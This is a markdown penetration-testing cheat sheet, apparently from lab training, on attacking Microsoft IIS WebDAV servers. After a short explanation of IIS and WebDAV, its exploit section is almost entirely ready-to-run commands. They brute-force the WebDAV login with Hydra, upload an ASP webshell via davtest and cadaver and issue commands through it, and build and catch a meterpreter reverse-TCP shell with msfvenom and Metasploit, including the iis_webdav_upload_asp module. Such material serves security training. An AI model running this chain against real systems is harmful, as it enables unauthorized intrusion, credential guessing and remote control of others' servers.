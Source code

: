 # Microsoft IIS WebDAV

# Explanation

## Microsoft IIS (Internet Information Services)

Proprietary web server software developed by Microsoft that runs on Windows.

IIS can be used to host static and dynamic web pages developed in ASP.NET and PHP.

Typically configured to run on ports TCP/80 and TCP/443.

- Supported executable file extensions :
    - .asp
    - .aspx
    - .config
    - .php

# WebDAV (Web Distributed Authoring & Versioning)

HTTP extension that allows clients to update, delete, move and copy files on a web server. WebDAV is used to enable a web server to act as a file server.

WebDAV essentially enables a web server to function as a file server for collaborative authoring.

WebDAV runs on top Microsoft IIS on ports TCP/80 and TCP/443.

In order to connect to a WebDAV server, you will need to provide legitimate credentials. This is because WebDAV implements authentication in the form of username and password.

# Exploit

## Bruteforce /webdav authentication page

```
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.2.17.124 http-get /webdav/
```

## Upload webshell

```
davtest -url http://10.2.17.124/webdav
davtest -auth bob:password -url http://10.2.17.124/webdav
```
```
cadaver http://10.2.17.124/webdav
Username:
Password:
dav:/webdav/>
dav:/webdav/> ls
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp
```

And interaction with webshell :
```
http://10.2.17.124/webdav/webshell.asp?cmd=ipconfig
http://10.2.17.124/webdav/webshell.asp?cmd=dir+C%3A\
http://10.2.21.182/webdav/webshell.asp?cmd=type%20dir+C%3A\flag.txt
```

## Upload reverse shell

### Scenario 1

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.5.2 LPORT=1234 -f asp > shell.asp
```

```
cadaver http://10.2.17.124/webdav
Username:
Password:
dav:/webdav/>
dav:/webdav/> ls
dav:/webdav/> put /root/shell.asp
```

```
service postgresql start && msfconsole
msf6 > use multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set LHOST 10.10.5.2
msf6 > set LPORT 1234
msf6 > run
meterpreter > sysinfo
meterpreter > getuid
```

### Scenario 2

```
msfconsole
use exploit/windows/iis/iis_webdav_upload_asp
msf6 > set HttpUsername bob
msf6 > set HttpPassword password_123321
msf6 > set RHOSTS 10.2.30.233
msf6 > set PATH /webdav/metasploit.asp
msf6 > run
meterpreter > sysinfo
meterpreter > getuid
```

# Tools

- [Hydra](https://www.kali.org/tools/hydra/)
- [Davtest](https://www.kali.org/tools/davtest/)
- [Cadaver](https://salsa.debian.org/debian/cadaver)